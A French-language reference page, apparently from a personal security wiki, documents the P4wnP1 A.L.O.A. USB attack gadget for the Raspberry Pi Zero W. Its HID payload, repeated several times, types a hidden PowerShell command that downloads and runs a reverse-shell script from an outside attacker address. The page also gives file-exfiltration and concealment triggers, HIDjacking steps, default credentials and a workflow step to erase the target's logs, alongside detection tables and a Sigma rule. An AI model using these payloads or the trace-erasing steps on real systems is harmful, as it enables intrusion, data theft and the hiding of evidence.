


# P4wnP1 A.L.O.A. — La Raspberry Pi Zero W devenue arme USB

> [!info] **En 1 phrase**
> Un firmware (mame82) qui transforme une **Raspberry Pi Zero W** en gadget USB composite : **HID** (clavier), **réseau fantôme** (RNDIS/ECM), **stockage**, **Bluetooth** (HIDjacking) — le tout pilotable à distance via WiFi/SSH.

---

## Overview

| Champ | Valeur |
|---|---|
| Nom | P4wnP1 A.L.O.A. (A Little Offensive Application) |
| Type | Firmware/OS pour Raspberry Pi Zero W → gadget USB |
| Matériel requis | Raspberry Pi Zero **W** (le modèle sans W ne permet ni WiFi ni BT) |
| USB gadget | Clavier HID, souris, réseau (RNDIS + CDC ECM), stockage, série — combinables |
| HIDScript | Langage de payload JavaScript (type DuckyScript) |
| Contrôle distant | WiFi AP (172.24.0.1), USB Ethernet (172.16.0.1), Bluetooth (172.26.0.1) |
| Bluetooth | HIDjacking : détournement d'un clavier BT apparié |
| Image officielle | Kali Linux dédiée (Pi Zero W uniquement, PAS Zero 2 W) |
| Licence | GPL-3.0 (projet) ; image Kali |
| Vecteur MITRE principal | T1200 (Hardware Additions), T1090 (Proxy) |

À quelques dizaines d'euros, P4wnP1 offre un **gadget USB programmable à volonté** : chaque fonction (HID, réseau, stockage) s'active par un simple trigger JavaScript.

---

## Concept

P4wnP1 A.L.O.A. (A Lot Of Attacks) est un firmware pour Raspberry Pi Zero W (par Marcus Mengs / mame82) qui fait de la carte un **USB gadget multi-fonctions**. Branché en USB à une cible, le Pi peut se présenter comme plusieurs périphériques **en même temps** :
- **HID** : clavier/souris émulés (injection de frappes compatible Duckyscript) ;
- **RNDIS / CDC ECM** : un adaptateur réseau « fantôme » qui donne accès au LAN de la cible (le Pi est accessible en SSH/WiFi depuis l'attaquant) ;
- **Mass Storage** : une partition de stockage pour exfiltration ;
- **Serial** : port série pour debug ou backdoor.

L'exécution est déclenchée par un système de **triggers** (fichiers JavaScript `triggers/*.js`) appelant des fonctions haut niveau (`useHumanInterfaceDevice()`, `usePayload()`, `useNetworking()`…). En plus du HID classique, la partie **Bluetooth/BLE** permet l'**HIDjacking** : détourner un clavier Bluetooth déjà apparié à la machine de la victime pour y injecter des frappes. Le tout est contrôlable à distance via le **WiFi de la carte** (mode AP) — c'est un couteau suisse USB programmable à volonté, pour quelques dizaines d'euros de matériel.



---

## Concepts fondamentaux

| Notion | Détail |
|---|---|
| USB gadget mode | Le Pi Zero W supporte nativement l'émulation USB (contrairement aux autres Pi, équipés d'un hub) |
| RNDIS | Adaptateur réseau émulé pour Windows (pilote classe) |
| CDC ECM | Adaptateur réseau émulé pour Linux/macOS |
| HIDScript | Payloads écrits en JavaScript (inspiré de DuckyScript) |
| Callbacks (P4wnP1 d'origine) | `onNetworkUp`, `onTargetGotIP`, `onKeyboardUp`, `onLogin` |
| HIDjacking | Spoofing d'un clavier BT apparié pour capturer l'injection de frappes |
| ratepatch | Fausse vitesse RNDIS (jusqu'à 20 Gbit/s) pour gagner la route par défaut |
| Nexmon | Firmware WiFi modifié : KARMA, covert channel (monitor mode NON supporté) |
| Triggers | Fichiers JS qui se déclenchent au boot / selon les événements |
| Covert channel HID | Communication cachée via le canal HID (frontdoor/backdoor) |

> [!note] À vérifier
> P4wnP1 A.L.O.A. ne supporte officiellement que la **Pi Zero W** : les ports vers Zero 2 W (p. ex. `pi_zero2w`) sont des forks communautaires avec des limitations (pas de Bluetooth, outils réduits).

---

## Installation

```bash
# 1. Télécharger l'image Kali "Raspberry Pi Zero W P4wnP1 ALOA"
#    (https://www.kali.org/get-kali/) puis l'écrire sur une microSD
#    (balenaEtcher / dd)
# 2. Insérer la microSD dans la Pi Zero W
# 3. Alimenter (port power, le plus éloigné du HDMI) puis attendre ~2 min au 1er boot
# 4. Rejoindre le WiFi de la carte (SSID par défaut, PSK MaMe82-P4wnP1)
#    - Web UI : http://172.24.0.1:8000
#    - SSH    : ssh kali@172.24.0.1 (kali/kali) ou root/toor
# 5. Brancher le PORT USB GADGET (USB-A) à la cible :
#    le Pi s'énumère clavier + souris + réseau (RNDIS/ECM)
#    USB Ethernet : IP de la carte 172.16.0.1
# 6. Configurer payloads + triggers puis rebooter (les triggers s'exécutent au boot)
```

### Accès par défaut

| Vecteur | IP | Identifiants |
|---|---|---|
| WiFi AP | 172.24.0.1 | PSK `MaMe82-P4wnP1` ; SSH `kali/kali` ou `root/toor` |
| USB Ethernet (RNDIS/ECM) | 172.16.0.1 | SSH |
| Bluetooth | 172.26.0.1 | PIN `1337`, device `P4wnP1` |

---

## Configuration

### Paramètres USB (Web UI / CLI `P4wnP1_cli`)

| Paramètre | Description |
|---|---|
| ID / VID / PID | Identité USB de la carte (spoofable, ex. imiter un clavier Dell) |
| Produit / Manufacturer | Nom affiché à la cible |
| Functions | Clavier, souris, réseau (RNDIS + ECM), stockage, série — tout combinable |
| WiFi | SSID, PSK, canal, visibilité (hidden), mode client/AP |
| Bluetooth | Visibilité, appairage, PIN |

### Trigger minimal (triggers/default.js)

```js
// HID + réseau au boot, puis exécution d'un payload
function trigger() {
  useHumanInterfaceDevice();
  useNetworking();
  usePayload("payload.txt");
}
```

### Payload (payloads/payload.txt, syntaxe ducky-compatible)

```bash
DELAY 800
GUI r
DELAY 400
STRING powershell -w hidden -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.20.15/shell.ps1')"
ENTER
```

---

## Architecture interne



- **USB gadget** : le driver du noyau compose plusieurs fonctions USB simultanément (clavier + réseau + stockage…).
- **Framework** : les triggers JS orchestrent les fonctions et lancent les payloads.
- **WiFi (Nexmon)** : AP de contrôle, mode client (relay), KARMA.
- **Bluetooth** : accès SSH lent (PIN pairing) ou HIDjacking.

---

## Commandes

```bash
# Payload HID (fichier payloads/payload.txt, syntaxe ducky-compatible)
DELAY 800
GUI r
DELAY 400
STRING powershell -w hidden -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.20.15/shell.ps1')"
ENTER
```

```js
// Trigger (triggers/default.js) : HID + réseau au boot
function trigger() {
  useHumanInterfaceDevice();
  useNetworking();
  usePayload("payload.txt");
}
```

| API / fonction | Effet |
|---|---|
| `useHumanInterfaceDevice()` | Active l'émulation clavier HID |
| `usePayload("payload.txt")` | Exécute un payload Duckyscript |
| `useNetworking()` / `useRNDIS()` | Active l'adaptateur réseau fantôme |
| `useStorage()` | Active la partition de stockage (exfil) |
| `useWifi()` | Active le mode AP WiFi de la carte (contrôle distant) |
| `useBluetooth()` | Active BLE (HIDjacking / HID over BLE) |
| `useScripting()` | Charge des scripts personnalisés |
| `useDeactivateRNDIS()` | Désactive RNDIS (masquage) |
| `useTriggerSet()` / `useRecon()` | Enchaînement de triggers / mode recon |

---

## Options et flags

| Option (P4wnP1 d'origine : setup.cfg / payload) | Description |
|---|---|
| `PAYLOAD=<nom>` | Payload actif au boot |
| `LANG=<layout>` | Disposition clavier cible (multi-layouts supportés) |
| `onKeyboardUp` | Callback : début de l'action quand le clavier est prêt |
| `onNetworkUp` | Callback : le lien réseau cible est actif |
| `onTargetGotIP` | Callback : la cible a reçu une IP |
| `onLogin` | Callback : un utilisateur se connecte en SSH |
| `led_blink` | Retour d'état par la LED de la carte |
| `ratepatch` | Fausse vitesse RNDIS (20 Gbit/s) pour dominer la route par défaut |
| `outhid` | Sortie ASCII brute via le clavier HID (`cat file \| outhid`) |

---

## Exemples pratiques

### Basic — reverse shell PowerShell

```bash
DELAY 800
GUI r
DELAY 400
STRING powershell -w hidden -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.20.15/shell.ps1')"
ENTER
```

### Intermediate — trigger recon (réseau seul, discret)

```js
function trigger() {
  // Aucun HID : la cible voit seulement un adaptateur réseau
  useNetworking();
}
```

### Advanced — exfil via stockage + masquage réseau

```js
function trigger() {
  useStorage();
  usePayload("collect_files.txt");
  useDeactivateRNDIS();   // masquer la carte réseau une fois le payload lancé
}
```

---

## Workflow complet (scénario pas à pas)

1. **Préparation** — flasher l'image, placer `payloads/payload.txt` et `triggers/default.js`, configurer le WiFi AP (SSID, clé, canal).
2. **Branchement** — insérer le port USB gadget dans la cible : le Pi s'énumère (clavier + réseau RNDIS), le trigger démarre.
3. **Contrôle distant** — rejoindre le WiFi AP de la carte (ou le réseau RNDIS) et se connecter en SSH / web UI.
4. **Exécution** — l'injection HID lance le payload (reverse shell, persistence, exfil) ; le réseau fantôme sert de canal pivot.
5. **Nettoyage** — retirer le gadget, effacer les logs de la cible, changer le SSID/mot de passe avant réutilisation.

---

## Scénarios avancés

### Scénario 1 : HIDjacking — détournement d'un clavier Bluetooth

Le Pi spoofe l'identité d'un clavier BT déjà apparié à la machine de la victime pour récupérer la connexion et injecter des frappes (recherche mame82).

```bash
# Sur le Pi (via SSH) :
# 1. Activer BLE + mode HID over BLE (HIDjacking)
# 2. Attendre que le clavier de la victime se reconnecte (ou le forcer à se réveiller)
# 3. Le Pi « prend » la liaison et devient le clavier : les frappes injectées arrivent sur la machine
# 4. Déclencher le payload HIDjacking (ex. reverse shell) via usePayload()
```

L'attaque ne laisse **aucune connexion filaire** et fonctionne tant que le clavier légitime se déconnecte (mise en veille, portée).

### Scénario 2 : Réseau fantôme + reverse shell (pivot complet)

La cible gagne une interface RNDIS : l'attaquant contrôle le Pi par WiFi pendant que le HID ouvre un shell.

```js
function trigger() {
  useHumanInterfaceDevice();
  useNetworking();
  usePayload("payload.txt");   // reverse shell vers le Pi (172.16.0.1)
}
```

Le Pi devient alors un **point de pivot** : depuis le WiFi, on atteint le réseau de la cible via la liaison RNDIS (forwarding IP, redirection, tunnel), tout en restant dans le périmètre physique.

### Scénario 3 : Exfiltration en masse via la partition de stockage

```js
function trigger() {
  useStorage();
  usePayload("collect_files.txt");
  useDeactivateRNDIS();   // masquer la carte réseau une fois le payload lancé
}
// L'attaquant récupère le contenu au démontage (les fichiers sont sur la carte)
```

### Scénario 4 : Lockpicker (P4wnP1 d'origine) — entrer dans un poste verrouillé

```bash
# Payload historique : récupère le hash, le cracke (John the Ripper embarqué),
# puis rejoue le mot de passe dans l'invite pour déverrouiller la session
# (exploitation de l'accès à la mémoire d'un poste verrouillé)
```

---

## Cybersecurity use cases

| Use case | Description |
|---|---|
| Pentest physique | Gadget USB programmable sur poste autorisé |
| Red team | Pivot réseau + livraison d'agents ([[Outil - Metasploit]], [[Outil - Chisel]]) |
| Air-gap | Pont WiFi entre un réseau isolé et l'attaquant |
| Recon discrète | Trigger « recon » : réseau seul, sans HID |
| Test de détection | Valider la détection des interfaces RNDIS/ECM et des AP fantômes |
| Défense | Étudier l'empreinte (VID/PID, interfaces) pour calibrer le SOC |

---

## MITRE ATT&CK

| Technique | ID | Exemple P4wnP1 |
|---|---|---|
| Hardware Additions | T1200 | Insertion du Pi Zero W en gadget USB |
| Command and Scripting Interpreter: PowerShell | T1059.001 | Payload `powershell -w hidden -nop -c "..."` |
| Command and Scripting Interpreter: Windows Command Shell | T1059.003 | Commandes `cmd` frappées |
| Command and Scripting Interpreter: Unix Shell | T1059.004 | Scripts Bash du framework |
| Proxy | T1090 | Pivot via RNDIS + WiFi (forwarding) |
| Boot or Logon Autostart Execution | T1547.001 | Run key posée par HID |
| Application Layer Protocol | T1071 | SSH/WiFi de contrôle, exfil HTTP |
| Ingress Tool Transfer | T1105 | Téléchargement d'outils via le réseau fantôme |
| Exfiltration Over Physical Medium | T1052 | Copie vers la partition stockage |

---

## Defensive Security

| Signe | Défense |
|---|---|
| Périphérique USB composite inconnu (clavier + réseau + stockage) | Allow-list USB, contrôle VID/PID (Raspberry Pi : VID 0x2e8a) |
| Nouvelle interface réseau RNDIS après branchement | Restreindre les pilotes d'adaptateurs USB réseau en GPO |
| Tentatives de jumelage Bluetooth HID inattendues | Désactiver Bluetooth sur les postes sensibles, politique de jumelage stricte |
| AP WiFi « fantôme » autour du périmètre | Scan WiFi régulier, WIDS/WIPS, supervision des SSID inconnus |
| Frappe clavier sans intervention | EDR comportemental HID + contrôle physique des ports |

### Règle SIGMA (exemple)

```yaml
title: P4wnP1 USB gadget network + HID pattern
id: 0d24e8f5-eeee-4f5f-9b9f-6c8d0e1f2a3b
status: experimental
logsource:
    product: windows
    service: powershell
detection:
    selection:
        EventID:
            - 4104
            - 4103
        ScriptBlockText|contains:
            - 'Net.WebClient).DownloadString'
    condition: selection
falsepositives:
    - Administration légitime
level: medium
```

> [!note] À vérifier
> Règle pédagogique : adapter au SIEM et à l'environnement.

---

## Automatisation

```bash
# P4wnP1_cli — contrôle depuis la machine attaquante
P4wnP1_cli reset
P4wnP1_cli run -p payloads/collect_files.txt
P4wnP1_cli led on

# Vérifier l'interface réseau fantôme depuis le Pi
ip addr show usb0
```

```python
# Python — récupérer l'exfil via le réseau fantôme (lab)
import paramiko
ssh = paramiko.SSHClient()
ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
ssh.connect("172.16.0.1", username="kali", password="kali")
stdin, stdout, stderr = ssh.exec_command("ls /loot/")
print(stdout.read().decode())
```

---

## Output et parsing

| Sortie | Description |
|---|---|
| Web UI :8000 | Tableau de bord, configuration, console |
| `P4wnP1_cli` | Commandes en ligne (reset, run, led...) |
| /loot/ | Dossier de récupération des fichiers exfiltrés |
| Logs système | `journalctl -u p4wnp1` |

```bash
# Depuis la carte (SSH)
ls -la /loot/
cat /var/log/p4wnp1.log
```

---

## Intégrations

- [[Tools| Outils]] global
- [[Techniques/Hardware - Raspberry Pi]] — plateforme matérielle
- [[Techniques/Protocole USB]] — gadget USB, VID/PID, classes
- [[Techniques/Protocole Bluetooth]] — HIDjacking, BLE
- [[Outil - Bash Bunny]] — équivalent commercial (HID + STORAGE + NET)
- [[Outil - USB Rubber Ducky]] — HID seul (Duckyscript)
- [[Outil - O.MG Cable]] — implant WiFi discret
- [[Outil - Responder]] — attaques réseau depuis le réseau fantôme
- [[Outil - Chisel]] — tunnel depuis le Pi
- [[Techniques/Pivoting et Tunneling]] — pivot vers le LAN cible
- [[Techniques/Reverse Shells]] — payloads livrés par HID

---

## Alternatives

| Outil | Matériel | Coût | Points forts | Points faibles |
|---|---|---|---|---|
| **P4wnP1 A.L.O.A.** | Pi Zero W | ~30 € | HID + NET + storage + BT, contrôle WiFi, open source | Boot lent, encombrant, Zero W seule |
| [[Outil - Bash Bunny]] | Clé Hak5 | ~100 € | Compact, double slot, boot rapide | Coût, moins programmable |
| [[Outil - USB Rubber Ducky]] | Clé Hak5 | ~50 € | Simple, fiable | HID seul |
| [[Outil - O.MG Cable]] | Câble | ~100 €+ | Déguisement total | Coût, pas de mass storage |
| USB Armory | Stick ARM | ~150 € | Sécurisé, polyvalent | Coût, moins adapté HID |

---

## Performance

- **Temps de boot** : ~30-60 s (démarrage Linux complet) avant que le trigger s'exécute — prévoir le `DELAY` côté cible.
- **Débit réseau fantôme** : limité par l'USB 2.0 (~450 Mbit/s max) ; fausse annonce jusqu'à 20 Gbit/s (ratepatch) pour la route par défaut.
- **Latence WiFi** : acceptable pour SSH/CLI ; la Web UI est plus lente.
- **Bluetooth** : lent (PIN pairing, high-speed désactivé) — réservé au SSH.
- **Autonomie** : alimenté par la cible (USB) ; la carte peut aussi être branchée sur une batterie.

---

## Troubleshooting

### Problème : la cible ne voit pas l'interface réseau

- **Cause** : pilotes RNDIS absents (Windows) ou combinaison HID+RNDIS bloquée.
- **Solution** : tester CDC ECM (Linux/macOS) ou les fonctions séparément.
- **Vérification** : `dmesg` côté cible, `ip addr` côté Pi (`usb0`).

### Problème : le trigger ne se lance pas au boot

- **Cause** : chemin du payload incorrect, erreur JS, payload non présent.
- **Solution** : vérifier `triggers/*.js` et `payloads/*.txt`, tester via `P4wnP1_cli run`.
- **Vérification** : `journalctl -u p4wnp1` sur la carte.

### Problème : l'accès WiFi AP introuvable

- **Cause** : SSID modifié/hidden, canal, carte redémarrée.
- **Solution** : scanner les réseaux, vérifier la config WiFi, repasser en SSH par USB (172.16.0.1).
- **Vérification** : la Web UI répond sur `172.24.0.1:8000`.

### Problème : HIDjacking échoue

- **Cause** : le clavier légitime reste connecté (jamais déconnecté).
- **Solution** : attendre la mise en veille du clavier / réduire la portée, ou forcer la reconnexion.
- **Vérification** : `hciconfig` / logs BT sur le Pi.

---

## Sécurité de l'outil

- **Cadre légal** : l'insertion d'un gadget sur un poste tiers est intrusive — autorisation écrite obligatoire.
- **Traces** : le Pi est un mini-OS avec logs ; effacer `journalctl`, les historiques shell et /loot avant réutilisation.
- **Secrets** : identifiants SSH/WiFi par défaut (MaMe82-P4wnP1, kali/kali, root/toor) à changer avant tout déploiement.
- **Données** : les fichiers exfiltrés sont à traiter selon le périmètre autorisé (RGPD).

---

## Limitations

- **Pi Zero W uniquement** (officiellement) : les autres Pi n'ont pas de port gadget USB natif ; Zero 2 W = forks non officiels.
- **Boot lent** : ~1 min avant que les triggers s'exécutent.
- **RNDIS visible** : une nouvelle interface réseau sur la cible est un signal fort pour un SOC.
- **Bluetooth lent** : PIN pairing forcé → SSH utilisable, Web UI très lente.
- **Monitor mode non supporté** : le WiFi (Nexmon) sert au contrôle, pas à l'analyse complète.
- **Encombrement** : une Pi + câbles est moins discrète qu'une clé ou un câble O.MG.

---

## Cheatsheet

| Action | Commande |
|---|---|
| SSH via USB Ethernet | `ssh kali@172.16.0.1` |
| SSH via WiFi | `ssh kali@172.24.0.1` (PSK `MaMe82-P4wnP1`) |
| SSH via Bluetooth | `ssh kali@172.26.0.1` (PIN `1337`) |
| Web UI | `http://172.24.0.1:8000` |
| Lancer un payload | `P4wnP1_cli run -p payloads/x.txt` |
| Reset | `P4wnP1_cli reset` |
| LED | `P4wnP1_cli led on` / `off` |
| Logs | `journalctl -u p4wnp1` |

---

## Quick reference

```js
// Trigger par défaut : HID + réseau + payload
function trigger() {
  useHumanInterfaceDevice();
  useNetworking();
  usePayload("payload.txt");
}
```

```bash
# Payload associé (Duckyscript)
DELAY 800
GUI r
DELAY 400
STRING powershell -w hidden -nop -c "IEX((New-Object Net.WebClient).DownloadString('http://10.10.20.15/shell.ps1'))"
ENTER
```

---

## Détection & Défense

| Signe | Défense |
|---|---|
| Périphérique USB composite inconnu (clavier + réseau + stockage) | Allow-list USB, contrôle VID/PID (Raspberry Pi : VID 0x2e8a) |
| Nouvelle interface réseau RNDIS après branchement | Restreindre les pilotes d'adaptateurs USB réseau en GPO |
| Tentatives de jumelage Bluetooth HID inattendues | Désactiver Bluetooth sur les postes sensibles, politique de jumelage stricte |
| AP WiFi « fantôme » autour du périmètre | Scan WiFi régulier, WIDS/WIPS, supervision des SSID inconnus |
| Frappe clavier sans intervention | EDR comportemental HID + contrôle physique des ports |

---

## Tips & Pièges

> [!tip] **Tips**
> - La Pi Zero W **sans W** ne permet pas le contrôle WiFi — prendre le modèle **W** pour le mode AP distant.
> - Tester sur VM/OS différents : le timing HID dépend du boot (USB enumeration, fast boot).
> - Le trigger « recon » (sans HID, réseau seul) est idéal pour un premier déploiement discret avant l'attaque.
> - Utiliser `useDeactivateRNDIS()` après le payload : moins de surface visible sur la cible.
> - Changer les identifiants par défaut (WiFi, SSH) avant tout déploiement.

> [!warning] **Pièges**
> - Le mode par défaut (réseau seul) donne l'IP **172.16.0.1** à la carte côté USB et **172.24.0.1** en WiFi — vérifier la doc de la version pour ne pas chercher la mauvaise IP.
> - L'énumération RNDIS **modifie la configuration réseau de la cible** (nouveau NIC) : très visible pour un SOC qui surveille les interfaces.
> - Le HIDjacking nécessite que le clavier légitime se déconnecte (batterie, portée) : l'attaque échoue si les deux « claviers » sont actifs.
> - Sur certains OS, le mode HID + RNDIS simultanés peut être bloqué par les pilotes : tester chaque combinaison avant l'engagement.

---

## References

> [!info] **Sources**
> - [GitHub — RoganDawes/P4wnP1_aloa](https://github.com/RoganDawes/P4wnP1_aloa)
> - [GitHub — mame82/P4wnP1 (projet d'origine)](https://github.com/mame82/P4wnP1)
> - [Kali Docs — Raspberry Pi Zero W P4wnP1 A.L.O.A.](https://www.kali.org/docs/arm/raspberry-pi-zero-w-p4wnp1-aloa/)
> - [P4wnP1 Official Wiki](https://p4wnp1.readthedocs.io/en/latest)

---

**Liens :** [[Tools| Outils]] · [[Techniques/Hardware - Raspberry Pi| Raspberry Pi]] · [[Techniques/Protocole USB| Protocole USB]] · [[Techniques/Protocole Bluetooth| Bluetooth]]
